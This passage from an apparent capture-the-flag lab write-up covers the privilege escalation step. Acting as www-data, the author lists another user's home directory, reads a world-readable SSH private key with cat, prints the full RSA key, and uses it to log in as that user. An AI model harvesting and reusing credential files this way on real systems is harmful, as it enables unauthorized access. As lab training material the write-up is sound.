 ## Privilege Escalation

i looked though the files and found `teleport` and `teleport.pub` interesting. seems like ssh keys

```shell
www-data@chocolate-factory:/home/charlie$ ls -la
total 40
drwxr-xr-x 5 charlie charley 4096 Oct  7  2020 .
drwxr-xr-x 3 root    root    4096 Oct  1  2020 ..
-rw-r--r-- 1 charlie charley 3771 Apr  4  2018 .bashrc
drwx------ 2 charlie charley 4096 Sep  1  2020 .cache
drwx------ 3 charlie charley 4096 Sep  1  2020 .gnupg
drwxrwxr-x 3 charlie charley 4096 Sep 29  2020 .local
-rw-r--r-- 1 charlie charley  807 Apr  4  2018 .profile
-rw-r--r-- 1 charlie charley 1675 Oct  6  2020 teleport
-rw-r--r-- 1 charlie charley  407 Oct  6  2020 teleport.pub
-rw-r----- 1 charlie charley   39 Oct  6  2020 user.txt
```

 and they are.

```shell
www-data@chocolate-factory:/home/charlie$ cat teleport
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA4adrPc3Uh98RYDrZ8CUBDgWLENUybF60lMk9YQOBDR+gpuRW
1AzL12K35/Mi3Vwtp0NSwmlS7ha4y9sv2kPXv8lFOmLi1FV2hqlQPLw/unnEFwUb
L4KBqBemIDefV5pxMmCqqguJXIkzklAIXNYhfxLr8cBS/HJoh/7qmLqrDoXNhwYj
B3zgov7RUtk15Jv11D0Itsyr54pvYhCQgdoorU7l42EZJayIomHKon1jkofd1/oY
fOBwgz6JOlNH1jFJoyIZg2OmEhnSjUltZ9mSzmQyv3M4AORQo3ZeLb+zbnSJycEE
RaObPlb0dRy3KoN79lt+dh+jSg/dM/TYYe5L4wIDAQABAoIBAD2TzjQDYyfgu4Ej
Di32Kx+Ea7qgMy5XebfQYquCpUjLhK+GSBt9knKoQb9OHgmCCgNG3+Klkzfdg3g9
zAUn1kxDxFx2d6ex2rJMqdSpGkrsx5HwlsaUOoWATpkkFJt3TcSNlITquQVDe4tF
w8JxvJpMs445CWxSXCwgaCxdZCiF33C0CtVw6zvOdF6MoOimVZf36UkXI2FmdZFl
kR7MGsagAwRn1moCvQ7lNpYcqDDNf6jKnx5Sk83R5bVAAjV6ktZ9uEN8NItM/ppZ
j4PM6/IIPw2jQ8WzUoi/JG7aXJnBE4bm53qo2B4oVu3PihZ7tKkLZq3Oclrrkbn2
EY0ndcECgYEA/29MMD3FEYcMCy+KQfEU2h9manqQmRMDDaBHkajq20KvGvnT1U/T
RcbPNBaQMoSj6YrVhvgy3xtEdEHHBJO5qnq8TsLaSovQZxDifaGTaLaWgswc0biF
uAKE2uKcpVCTSewbJyNewwTljhV9mMyn/piAtRlGXkzeyZ9/muZdtesCgYEA4idA
KuEj2FE7M+MM/+ZeiZvLjKSNbiYYUPuDcsoWYxQCp0q8HmtjyAQizKo6DlXIPCCQ
RZSvmU1T3nk9MoTgDjkNO1xxbF2N7ihnBkHjOffod+zkNQbvzIDa4Q2owpeHZL19
znQV98mrRaYDb5YsaEj0YoKfb8xhZJPyEb+v6+kCgYAZwE+vAVsvtCyrqARJN5PB
la7Oh0Kym+8P3Zu5fI0Iw8VBc/Q+KgkDnNJgzvGElkisD7oNHFKMmYQiMEtvE7GB
FVSMoCo/n67H5TTgM3zX7qhn0UoKfo7EiUR5iKUAKYpfxnTKUk+IW6ME2vfJgsBg
82DuYPjuItPHAdRselLyNwKBgH77Rv5Ml9HYGoPR0vTEpwRhI/N+WaMlZLXj4zTK
37MWAz9nqSTza31dRSTh1+NAq0OHjTpkeAx97L+YF5KMJToXMqTIDS+pgA3fRamv
ySQ9XJwpuSFFGdQb7co73ywT5QPdmgwYBlWxOKfMxVUcXybW/9FoQpmFipHsuBjb
Jq4xAoGBAIQnMPLpKqBk/ZV+HXmdJYSrf2MACWwL4pQO9bQUeta0rZA6iQwvLrkM
Qxg3lN2/1dnebKK5lEd2qFP1WLQUJqypo5TznXQ7tv0Uuw7o0cy5XNMFVwn/BqQm
G2QwOAGbsQHcI0P19XgHTOB7Dm69rP9j1wIRBOF7iGfwhWdi+vln
-----END RSA PRIVATE KEY-----
```

 i copied the private key to my system, put the right permissions on the file and got a login as `charlie`
